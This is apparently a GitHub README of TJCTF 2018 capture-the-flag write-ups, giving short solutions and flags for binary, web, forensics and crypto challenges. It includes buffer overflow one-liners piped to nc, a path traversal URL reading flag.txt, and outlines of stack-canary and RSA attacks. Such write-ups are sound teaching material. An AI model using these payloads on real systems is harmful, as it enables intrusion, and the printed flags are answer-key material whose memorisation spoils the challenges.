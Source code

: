 # TJCTF_2018

Writeups for tjctf 2018

## Binary Exploitation

### Math Whiz

*The neighborhood math whiz won't stop bragging about the [registration form](The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!) [(source)](https://static.tjctf.org/b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c) he coded. Show him who's boss!*

`nc problem1.tjctf.org 8001`

There's a pretty blatent buffer overflow vulnerability that exists because the fgets command is being passed the wrong parameter. Just injecting enough lines of A's via python gets the job done.

```
python -c "print ('A'*100+'\n')*10" | nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: Username: Password: Recovery Pin: Email: Address: Biography: Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```

### Tilted Troop

*Can you help us defeat the monster? [binary](https://static.tjctf.org/ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) [(source)](https://static.tjctf.org/48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c)*

`nc problem1.tjctf.org 8002`

This is another buffer overflow problem. Indexed incorrectly you can input 9 characters. The ascii values of the last character's name sum together to make up the strength of all the characters because of this. Just inject an ascii string with the proper sum for the 9th character.

```
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab# (python -c "print 'A\n'*8+'A aaam\n'+'F\n'"; cat) | nc problem1.tjctf.org 8002
Commands:
 A <name> - Add a team member
 F - Fight the monster
 Q - Quit
Wow! Your team is strong! Here, take this flag:
tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}
Try again
^C
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab#
```

### Future Canary Lab
*The world renowned Future Canary Lab is looking for a new lab member. Good luck with your [interview](https://static.tjctf.org/c962e5ec36fc4161a93c042e1837cf0fe0a35a92469f37181f827d9ee8a54cca_interview) [(source)](https://static.tjctf.org/2e1b38dc00bfb021e2deb45219f4c44b371dc1ae98b0fb2ee2d9905032e310a3_interview.c!)*

`nc problem1.tjctf.org 8000`

This one is a stack exploit via buffer overflow that requires leaving a stack canary intact. They use C's default random library with a seed of the time in seconds. Just write a C script to generate the values locally and then inject the overflow, canary, and payload to get the calculation to evaluate to 0xdeadbeef in the code via a simple python script using os.popen and pwntools' socks client.

### Secure Secrets

*I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?*

`nc problem1.tjctf.org 8008`

[Video Writeup](https://www.youtube.com/edit?o=U&video_id=NbDZW0HQmf4)

## Web

### Blank
*Someone told me there was a flag on this [site](https://blank.tjctf.org/), so why is it that I can only see blank?*

The flag is a comment in the webpage source html code. Ctrl-U in firefox.

### Cookie Monster
*The [Cookie Monster](https://cookie_monster.tjctf.org/) is not a fan of horses*

The flag is a webpage cookie. Just go into the debug console (F-12) and find it there with the rest of the webpage cookies.

### Central Savings Account
*I seem to have forgotten the password for my savings account. What am I gonna do?*

The flag's md5 has is stored client side in the webpage js. Just throw it into hashkiller. The flag is "avalon".

### Moar Horses
*The [Horse](https://moar_horse.tjctf.org/) is back!*

This problem must seriously have been a joke. Just keep scrolling via javascript. Eventually you'll find a response containing the flag in the console.

```javascript
$(window).scroll(function () { console.log( $('.jscroll-next-parent').html() ); })
```

```
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a>
```

### Programmable Hyperlinked Pasta

*Check out my new site! PHP is so cool!*

[programmable_hyperlinked_pasta.tjctf.org](programmable_hyperlinked_pasta.tjctf.org)

`view-source:https://programmable_hyperlinked_pasta.tjctf.org/?lang=../flag.txt`

## Misc.

### Trippy
*[trippy](https://static.tjctf.org/be37fef78cfd6c7deda71154f567e6d0cfefbda1f80698c064bab469d3a54c58_trippy.gif)*

Run strings on the file and grep for "tjctf"

```
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy# strings trippy.gif | grep tjctf
tjctf{w0w}
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy#
```

### Mirror Mirror

*If you look closely, you can see a reflection.*

`nc problem1.tjctf.org 8004`

The problem leaves us with a restricted python terminal and a hint regarding reflection, a way to get possible attributes of object and/or functions at runtime in many languages.

[Video Writeup](todo)

## Forensics

### Weird Logo

*This company's logo stands in contrast of those of other leading edge tech companies with its poor design*

![Source](https://static.tjctf.org/c9a03d15f235087145579bd06f3f736a5546539254fbde100b8bf4d990bb8d8f_logo.png)

Solution: There are 2 colors of blue used in the image that are very close to one another. Use a bucket tool in paint with 100% selectivity to get the flag.

*image link here*

### Weird Audio Circuit

*In my electronics class, we made this cool circuit for encoding audio. Check it out!*

[Audio](https://static.tjctf.org/c34e48ab19254a7fe95fff369d8dca5272f2a46f92e6c4ffef50d9b4de5e9cbc_problem.wav)

The file contains an AM modulated audio signal with a carrier at 10Khz. Demodulate with the following nyquist script in audacity, and transcribe the flag starting at ~36 seconds in.

[https://forum.audacityteam.org/viewtopic.php?t=95331](https://forum.audacityteam.org/viewtopic.php?t=95331)
`(lowpass8 (mult *track* (hzosc 10000)) 10000)`

### Ssleepy

*I found this super suspicious [transmission](https://static.tjctf.org/99870da89e552d13905dbff3fe0543ca336c4c425cb723e3f4b6c0e91a6e23e7_ssleepy.pcapng) lying around on the floor. What could be in it?*

Extract .7z file containing .pem file for RSA private key (for SSL traffic decryption) from FTP traffic in wireshark. Then, extract the flag.jpg file from the SSL traffic responding to the GET request for the flag image.

[Video Writeup](https://www.youtube.com/edit?o=U&video_id=1uiYoRnXt0M)

## Cryptography

### Classic

*My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](https://static.tjctf.org/6bd24f59c2861c8f62358d17d677812bc079876f6951c22d13f396bbf1059cca_rsa.txt)*

The modulus is easily factored by [Fermat's Algorithm](https://en.wikipedia.org/wiki/Fermat%27s_factorization_method). Use the factorization to generate the private key and decrypt the ciphertext.

### Affine

Didn't solve this one during the competition, but I'm still pretty convinced its a linearly padded hastad broadcast attack where the padding is the sha1 hash of the modulus as a string.




